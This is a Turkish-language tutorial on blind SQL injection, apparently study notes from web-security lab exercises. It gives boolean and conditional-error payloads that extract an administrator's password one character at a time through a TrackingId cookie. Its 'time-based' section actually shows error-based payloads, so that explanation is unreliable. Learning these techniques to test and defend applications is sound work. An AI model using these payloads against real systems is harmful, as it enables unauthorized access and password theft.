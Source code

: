 # Blind SQL injection

### Tanım
Blind SQL Injection (Kör SQL Enjeksiyonu), SQL enjeksiyonunun bir türüdür. Bu saldırı türünde, veritabanı çıktısı veya hata mesajı doğrudan kullanıcılara gösterilmez. Bunun yerine, saldırgan SQL sorgularının doğru ya da yanlış olduğunu anlamak için uygulamanın yanıtlarını analiz eder. Saldırgan, doğru bir yanıt almak için sorguda belirli bir mantık kullanarak adım adım bilgi toplar. Genellikle bu tür saldırılarda, "Evet/Hayır" türünde yanıtlar elde edilir ve buna göre tahminler yapılır.

Blind SQL Injection, veritabanı hatalarının gizlendiği ve çıktının sınırlı olduğu uygulamalarda kullanılır. Saldırgan, doğru yanıtları almak için çeşitli koşulları test eder ve sonuçları gözlemler. Bu, şifreleri, veritabanı şemalarını veya diğer hassas bilgileri açığa çıkarabilir.

#### Blind SQL Injection Sorgularına Genel Örnekler:

1. **Temel Sorgu Örneği**:
    ```sql
    SELECT * FROM sessions WHERE TrackingId = 'xyz123';
    ```
    - Bu sorgu, `TrackingId` değeri 'xyz123' olan kayıtları çeker.

2. **Koşul Kontrolü - True (Doğru Koşul)**:
    ```sql
    SELECT * FROM users WHERE TrackingId = 'xyz' AND '1'='1';
    ```
    - Bu sorguda `'1'='1'` her zaman doğru olduğu için sorgu başarılı olacaktır.

3. **Koşul Kontrolü - False (Yanlış Koşul)**:
    ```sql
    SELECT * FROM users WHERE TrackingId = 'xyz' AND '1'='2';
    ```
    - Bu sorguda `'1'='2'` yanlış olduğu için sorgu başarısız olur.

#### Blind SQL Injection İle Bilgi Elde Etme

Blind SQL Injection, saldırganın uygulamanın yanıtlarını kullanarak çeşitli bilgilere ulaşmasına yardımcı olabilir. Bu, özellikle şifreleri, kullanıcı bilgilerini ve veritabanı yapısını keşfetmek için kullanılır.

1. **Veritabanı Bilgisi Edinme**:
    - **Koşul**: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a'`
      - Bu sorgu, veritabanında 'administrator' kullanıcısının mevcut olup olmadığını kontrol eder.
    - **Yanlış Koşul**: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='b'`
      - Bu durumda, `administrator` kullanıcısının olmadığını anlamak için sorgu yanıtı gözlemlenir. Yanıt başarısız olursa, bu kullanıcı veritabanında mevcut değildir.

2. **Parola Uzunluğu Kontrolü**:
    - **Koşul**: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a'`
      - Burada, `administrator` kullanıcısının şifresinin uzunluğunun 1'den fazla olup olmadığı sorgulanır. Eğer şifre uzunluğu 1'den büyükse, doğru bir yanıt alınır.

3. **Parola Karakterlerini Öğrenme**:
    - **İlk Karakter**: `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'`
      - Bu sorgu, `administrator` kullanıcısının şifresinin ilk karakterinin 'a' olup olmadığını kontrol eder.
    - **Farklı Karakter**: `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§'`
      - Burada, şifrenin ilk karakterinin `'§a§'` olup olmadığı kontrol edilir. Bu tür karakterlerle sistemin doğru cevabı nasıl verdiği gözlemlenir.

4. **Şifre Uzunluğunu Kontrol Etme**:
    - **Koşul**: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a'`
      - Bu sorgu, şifrenin uzunluğunun 3'ten fazla olup olmadığını kontrol eder.

#### Zaman Tabanlı Blind SQL Injection

Zaman tabanlı Blind SQL Injection, belirli bir koşul doğru olduğunda sorgunun yanıt süresini değiştirmek için kullanılır. Bu, saldırganın doğru yanıtı bulmasını sağlar.

1. **Zaman Tabanlı Blind SQL Injection Örneği**:
    - **Şifre Karakteri Kontrolü**: 
    ```sql
    TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
    ```
    - Bu sorgu, `administrator` kullanıcısının şifresinin ikinci karakterinin `'§a§'` olup olmadığını kontrol eder. Eğer doğruysa, `TO_CHAR(1/0)` komutu hata üretir ve sorgu zamanlanır. Bu da saldırgana doğru cevabı verdiğini gösterir.

    - **İlk Karakter Kontrolü**:
    ```sql
    TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
    ```
    - Bu sorgu, şifrenin ilk karakterinin `'a'` olup olmadığını kontrol eder. Eğer doğruysa, hata oluşur ve zaman tabanlı yanıt alınır.

### Blind SQL Injection ile Şifre Kırma

Blind SQL Injection, saldırganın her bir karakteri tahmin etmesine ve şifreyi adım adım kırmasına olanak tanır. Bu tür saldırılarda genellikle şu adımlar izlenir:
1. Şifrenin uzunluğu tahmin edilir.
2. Karakter karakter, şifrenin her bir bölümü test edilir.
3. Sistemin sağladığı farklı yanıtlar (başarı, başarısızlık) kullanılarak şifre tamamlanır.

Bu saldırı türü, kullanıcıdan alınan bilgilerin doğru bir şekilde doğrulanmadığı durumlarda, veritabanı bilgilerine erişim sağlar. 
